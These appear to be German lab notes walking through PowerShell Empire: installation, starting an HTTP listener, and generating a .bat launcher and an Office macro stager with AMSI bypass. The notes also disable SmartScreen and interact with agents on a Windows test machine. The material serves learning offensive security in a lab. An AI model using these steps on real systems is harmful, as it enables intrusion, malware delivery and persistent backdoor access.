

Wird über Meterpreter ins Opfersystem gebracht. 

Bei der Post Exploitation wird versucht, die Privilegien in alle Richtungen auszubauen und Backdoors für einen späteren Zugang einzurichten.

Mit Empire können Makro-Viren erzeugt werden, siehe "Amberg Video 177 Einen Makro-Virus mit Empire erstellen".


# Installieren

Original wird nicht mehr supportet. Fork einer Sicherheitsfirma

Fork: `https://github.com/BC-SECURITY/Empire`

```bash
$ sudo -i
$ pwd
/root
$ git clone https://github.com/BC-SECURITY/Empire
$ ls
Empire

$ cd Empire
$ cd setup
$ ./install.sh
$ cd ..
$ ./empire
```

```
================================================================================
 [Empire]  Post-Exploitation Framework
================================================================================
 [Version] 3.8.2 BC Security Fork | [Web] https://github.com/BC-SECURITY/Empire
================================================================================
 [Starkiller] Multi-User GUI | [Web] https://github.com/BC-SECURITY/Starkiller
================================================================================

   _______ .___  ___. .______    __  .______       _______
  |   ____||   \/   | |   _  \  |  | |   _  \     |   ____|
  |  |__   |  \  /  | |  |_)  | |  | |  |_)  |    |  |__
  |   __|  |  |\/|  | |   ___/  |  | |      /     |   __|
  |  |____ |  |  |  | |  |      |  | |  |\  \----.|  |____
  |_______||__|  |__| | _|      |__| | _| `._____||_______|


       319 modules currently loaded

       0 listeners currently active

       0 agents currently active


(Empire) > 

```

Eventuell ist python-pip zu installieren:

```bash
$ apt update
$ apt install pip
```


# Installieren II

Scheint auch einfacher zu gehen [[Quelle](https://github.com/BC-SECURITY/Empire)]:

### Kali

You can install the latest version of Empire by running the following:

```
sudo apt install powershell-empire
sudo powershell-empire
```


# Empire

Listener, Stager, Agents, Module

## Listener

**Listener**: Binden an Port und auf Verbindungsanforderungen warten

Anzeige der listener und wechsel in den Listener Kontext

```
(Empire) > listeners
[!] No listeners currently active 
(Empire: listeners) > list
[!] No listeners currently active 

(Empire: listeners) > uselistener <TAB><TAB>
dbx             http            http_com        http_foreign    http_hop        http_malleable  http_mapi       meterpreter     onedrive        redirector
(Empire: listeners) > uselistener 
```

```
(Empire: listeners) > uselistener http
(Empire: listeners/http) > info

    Name: HTTP[S]
Category: client_server

Authors:
  @harmj0y

Description:
  Starts a http[s] listener (PowerShell or Python) that uses a
  GET/POST approach.

HTTP[S] Options:

  Name              Required    Value                            Description
  ----              --------    -------                          -----------
  Name              True        http                             Name for the listener.
  Host              True        http://192.168.126.2             Hostname/IP for staging.
  BindIP            True        0.0.0.0                          The IP to bind to on the control server.
  Port              True                                         Port for the listener.
  Launcher          True        powershell -noP -sta -w 1 -enc   Launcher string.
  StagingKey        True        .eXn&^}bVD+jdm<iZa/3#o~SQu_W4{CI Staging key for initial agent negotiation.
  DefaultDelay      True        5                                Agent delay/reach back interval (in seconds).
  DefaultJitter     True        0.0                              Jitter in agent reachback interval (0.0-1.0).
  DefaultLostLimit  True        60                               Number of missed checkins before exiting
  DefaultProfile    True        /admin/get.php,/news.php,/login/ Default communication profile for the agent.
                                process.php|Mozilla/5.0 (Windows
                                NT 6.1; WOW64; Trident/7.0;
                                rv:11.0) like Gecko
  CertPath          False                                        Certificate path for https listeners.
  KillDate          False                                        Date for the listener to exit (MM/dd/yyyy).
  WorkingHours      False                                        Hours for the agent to operate (09:00-17:00).
  Headers           True        Server:Microsoft-IIS/7.5         Headers for the control server.
  Cookie            False       OvaeExENJUopMxa                  Custom Cookie Name
  StagerURI         False                                        URI for the stager. Must use /download/. Example: /download/stager.php
  UserAgent         False       default                          User-agent string to use for the staging request (default, none, or other).
  Proxy             False       default                          Proxy to use for request (default, none, or other).
  ProxyCreds        False       default                          Proxy credentials ([domain\]username:password) to use for request (default, none, or other).
  SlackURL          False                                        Your Slack Incoming Webhook URL to communicate with your Slack instance.
```

```
(Empire: listeners/http) > set Port 80
```

```
(Empire: listeners/http) > execute
[*] Starting listener 'http'
 * Serving Flask app "http" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
[+] Listener successfully started!
```


Eine Ebene zurück und Listener anzeigen:

```
(Empire: listeners/http) > back
(Empire: listeners) > list

[*] Active listeners:
                                                                                                                                                                             
  Name              Module          Host                                 Delay/Jitter   KillDate
  ----              ------          ----                                 ------------   --------
  http              http            http://192.168.126.2:80              5/0.0
```


In einer anderen shell kann man das überprüfen:

```bash
$ netstat -tlpn | grep 80
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      12525/python3 
```


## Stager

**Stager**: Software das der Payload auf dem Opfersystem erlaubt eine Verbindung zum Listener auf dem System des Angreifers herzustellen. 

Agent: Nach der Verbindung mit dem Listener wird ein Agent registriert. Agent ist = etablierte Verbindung zum Remote System. D.h. der aktivierte Stager erzeugt einen Agent.

```
(Empire: listeners) > agents
[!] No agents currently registered
(Empire: agents) > usestager 
multi/bash                osx/application           osx/macro                 windows/bunny             windows/launcher_lnk      windows/shellcode
multi/launcher            osx/ducky                 osx/pkg                   windows/csharp_exe        windows/launcher_sct      windows/teensy
multi/macro               osx/dylib                 osx/safari_launcher       windows/dll               windows/launcher_vbs      windows/wmic
multi/pyinstaller         osx/jar                   osx/shellcode             windows/ducky             windows/launcher_xml      
multi/war                 osx/launcher              osx/teensy                windows/hta               windows/macro             
osx/applescript           osx/macho                 windows/backdoorLnkMacro  windows/launcher_bat      windows/macroless_msword  
(Empire: agents) > usestager 

```

Liste mit `usestager`+Leerzeichen+TAB+TAB

```
(Empire: listeners) > agents
[!] No agents currently registered
(Empire: agents) > usestager 
multi/bash                osx/application           osx/macro                 windows/bunny             windows/launcher_lnk      windows/shellcode
multi/launcher            osx/ducky                 osx/pkg                   windows/csharp_exe        windows/launcher_sct      windows/teensy
multi/macro               osx/dylib                 osx/safari_launcher       windows/dll               windows/launcher_vbs      windows/wmic
multi/pyinstaller         osx/jar                   osx/shellcode             windows/ducky             windows/launcher_xml      
multi/war                 osx/launcher              osx/teensy                windows/hta               windows/macro             
osx/applescript           osx/macho                 windows/backdoorLnkMacro  windows/launcher_bat      windows/macroless_msword  
(Empire: agents) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > 
```

```
(Empire: stager/windows/launcher_bat) > info

Name: BAT Launcher

Description:
  Generates a self-deleting .bat launcher for
  Empire.

Options:

  Name             Required    Value             Description
  ----             --------    -------           -----------
  Listener         True                          Listener to generate stager for.
  Language         True        powershell        Language of the stager to generate.
  StagerRetries    False       0                 Times for the stager to retry
                                                 connecting.
  OutFile          False       /tmp/launcher.bat File to output .bat launcher to,
                                                 otherwise displayed on the screen.
  Delete           False       True              Switch. Delete .bat after running.
  Obfuscate        False       False             Switch. Obfuscate the launcher
                                                 powershell code, uses the
                                                 ObfuscateCommand for obfuscation types.
                                                 For powershell only.
  ObfuscateCommand False       Token\All\1       The Invoke-Obfuscation command to use.
                                                 Only used if Obfuscate switch is True.
                                                 For powershell only.
  UserAgent        False       default           User-agent string to use for the staging
                                                 request (default, none, or other).
  Proxy            False       default           Proxy to use for request (default, none,
                                                 or other).
  ProxyCreds       False       default           Proxy credentials
                                                 ([domain\]username:password) to use for
                                                 request (default, none, or other).
  AMSIBypass       False       True              Include mattifestation's AMSI Bypass in
                                                 the stager code.
  AMSIBypass2      False       False             Include Tal Liberman's AMSI Bypass in
                                                 the stager code.
```

```
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute

[*] Stager output written out to: /tmp/launcher.bat
     
```

Stager ist ein Batchdatei die eine Powershell auf dem Zielsystem aufruft und über diesen Weg die Payload ausführt.

Diese Batchdatei muss auf das Opfersystem gebracht werden. Das geht über Metasploit in einer bereits etablierten meterpreter Session.


# Makrovirus erstellen

Mit Empire

```
(Empire) > listeners

[*] Active listeners:

  Name              Module          Host                                 Delay/Jitter   KillDate
  ----              ------          ----                                 ------------   --------
  http              http            http://192.168.126.2:80              5/0.0
```

```
(Empire: listeners) > usestager windows/macro http
(Empire: stager/windows/macro) > info

Name: Macro

Description:
  Generates an office macro for Empire, compatible
  with office 97-2003, and 2007 file types.

```

`http` ist der Name des listeners. Ausgabe auf stdout oder man setzt `OutFile`

```
(Empire: stager/windows/macro) > set OutFile /tmp/macro
(Empire: stager/windows/macro) > execute

[*] Stager output written out to: /tmp/macro

```

Excel Datei mit dem Makro erstellen. Siehe [Excel Backdoor Makro](excel_backdoor_makro)

Weiter mit 

```
agents
interact <Name>
info
```



```
(Empire: agents) > 
[*] Sending POWERSHELL stager (stage 1) to 192.168.178.82                                                                               
[*] New agent H47YS5CV checked in
[+] Initial agent H47YS5CV from 192.168.178.82 now active (Slack)
[*] Sending agent (stage 2) to H47YS5CV at 192.168.178.82
agents

[*] Active agents:
                                                                                                                                        
 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 H47YS5CV ps 192.168.178.82  DESKTOP-KB6QKG7   DESKTOP-KB6QKG7\test    powershell         5912   5/0.0    2021-05-30 13:50:31  ListenerTest    

(Empire: agents) > interact H47YS5CV
(Empire: H47YS5CV) > info

[*] Agent info:                                                                                                                         
                                                                                                                                        
        checkin_time            2021-05-30 13:48:25.044699+00:00
        delay                   5
        external_ip             192.168.178.82
        high_integrity          False
        hostname                DESKTOP-KB6QKG7
        internal_ip             192.168.178.82
        jitter                  0.0
        kill_date       
        language                powershell
        language_version        5
        lastseen_time           2021-05-30 13:50:41.525684+00:00
        listener                ListenerTest
        lost_limit              60
        name                    H47YS5CV
        nonce                   8846145887167469
        os_details              Microsoft Windows 10 Pro
        process_id              5912
        process_name            powershell
        profile                 /admin/get.php,/news.php,/login/process.php|Mozilla/5.0 (Windows NT
                                6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
        session_id              H47YS5CV
        session_key             [*nklTP2MsD_A1Rc:#j|zqi5\o4x6?Z{
        username                DESKTOP-KB6QKG7\test
        working_hours   


```


# launcher_bat Test 29.05.2021

[Infos](https://null-byte.wonderhowto.com/how-to/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts-0178664/)

```
usestager windows/launcher_bat

```

`help` `info`

```
(Empire: stager/windows/launcher_bat) > set Listener ListenerTest
(Empire: stager/windows/launcher_bat) > execute
```


```bash
cd /tmp
python3 -m http.server 8080
```

MS Edge

---

### To turn SmartScreen on or off in the new Microsoft Edge:

1. Select **Settings and more** > **Settings** > **Privacy & services** .
2. Scroll down to **Services**, and turn **Microsoft Defender SmartScreen** on or off.

Einstellungen > Datenschutz Suche und Dienste > Sicherheit > Microsoft Defender SmartScreen ausschalten

---

Auf Windows `launcher.bat` über die Kommandozeile starten (Doppelclick wird von Windows verhindert)

Empire meldet:

```
(Empire: agents) > 
[*] Sending POWERSHELL stager (stage 1) to 192.168.178.82                                                                            
[*] New agent 4NE5196G checked in
[+] Initial agent 4NE5196G from 192.168.178.82 now active (Slack)
[*] Sending agent (stage 2) to 4NE5196G at 192.168.178.82
```


```
(Empire: agents) > agents

[*] Active agents:
                                                                                                                                     
 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 4NE5196G ps 192.168.178.82  DESKTOP-KB6QKG7   DESKTOP-KB6QKG7\test    powershell         5632   5/0.0    2021-05-29 14:21:10  ListenerTest    

(Empire: agents) >
```


```
(Empire: agents) > interact 4NE5196G
(Empire: 4NE5196G) > dir
[*] Tasked 4NE5196G to run TASK_SHELL
[*] Agent 4NE5196G tasked with task ID 1
(Empire: 4NE5196G) > 
Mode   Owner                LastWriteTime        Length Name                
----   -----                -------------        ------ ----                
-a-hs- DESKTOP-KB6QKG7\test 27.05.2021 12:17:01     282 desktop.ini         
-a---- DESKTOP-KB6QKG7\test 29.05.2021 16:17:58    5249 launcher - Kopie.bat
-a---- DESKTOP-KB6QKG7\test 29.05.2021 16:17:58    5249 launcher.bat        
-a---- DESKTOP-KB6QKG7\test 27.05.2021 13:36:48 7327912 OfficeSetup.exe
```

